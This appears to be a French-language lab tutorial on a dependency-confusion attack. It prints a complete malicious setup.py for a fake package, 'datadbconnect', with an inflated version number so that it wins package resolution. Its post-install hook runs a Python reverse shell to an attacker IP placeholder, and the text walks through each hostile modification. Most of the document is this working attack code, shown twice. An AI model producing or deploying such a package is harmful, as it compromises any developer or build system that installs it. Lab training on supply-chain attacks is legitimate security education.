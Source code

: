 ```
from setuptools import find_packages
from setuptools import setup
from setuptools.command.install import install
import os
import sys

VERSION = 'v9000.0.2'

class PostInstallCommand(install):
     def run(self):
         install.run(self)
         print ("Hello World from installer, this proves our injection works")
         os.system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKBOX_IP",8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])\'')

setup(
        name='datadbconnect',
        url='https://github.com/labs/datadbconnect/',
        download_url='https://github.com/labs/datadbconnect/archive/{}.tar.gz'.format(VERSION),
        author='Tinus Green',
        author_email='tinus@notmyrealemail.com',
        version=VERSION,
        packages=find_packages(),
        include_package_data=True,
        license='MIT',
        description=('''Dataset Connection Package '''
                  '''that can be used internally to connect to data sources '''),
        cmdclass={
            'install': PostInstallCommand
        },
)
```

Jetons un coup d'oeil aux ajustements que nous avons faits. Premièrement, nous avons importé la bibliothèque d'installation de setuptools et la bibliothèque os:

```
from setuptools.command.install import install
import os
import sys
```

Nous avons également mis à jour la version de notre package pour nous assurer de gagner la course à la confusion des dépendances:

```
VERSION = 'v9000.0.2'
```

Ensuite, nous avons introduit une nouvelle fonction qui fonctionnera comme un crochet post-installation pour exécuter un shell inversé pour nous. N'oubliez pas d'ajouter votre AttackBox ou VPN IP:

```
class PostInstallCommand(install):
    def run(self):
        install.run(self)
        print ("Hello World from installer, this proves our injection works")
        os.system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKBOX_IP",8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])\'')
```
